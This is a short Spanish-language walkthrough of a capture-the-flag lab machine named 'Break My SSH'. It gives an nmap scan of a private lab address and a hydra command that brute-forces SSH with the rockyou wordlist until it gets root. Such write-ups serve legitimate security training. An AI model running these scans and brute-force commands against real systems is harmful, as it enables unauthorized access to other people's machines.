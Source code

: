 # MÁQUINA BREAK MY SSH

Lo primeroq que tendremos que hacer será realizar un escaneo de puertos a la máquina víctima usando nmap:

```shell
nmap -p- -sS -sC -sV -vvv --min-rate 5000 -Pn 172.17.0.2
```

![NMAP](https://github.com/Isma-yo/photos/blob/main/Break%20My%20SSH/foto.jpg)

Vemos que unicamente esta abierto el puerto 22, si buscamos vulnerabilidades con searchsploit y las probabamos vemos que no ocurre nada, por lo que la única solución que nos queda es hacer un ataque de fuerza bruta completamente a ciegas:

```shell
hydra -L /usr/share/metasploit-framework/data/wordlists/unix_users.txt -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![HYDRA](https://github.com/Isma-yo/photos/blob/main/Break%20My%20SSH/foto2.jpg)

Tras un rato probando podemos ver que si ponemos como usuario a root encuentra su contraseña:

![ROOT](https://github.com/Isma-yo/photos/blob/main/Break%20My%20SSH/foto3.jpg)

Y ya somos root!




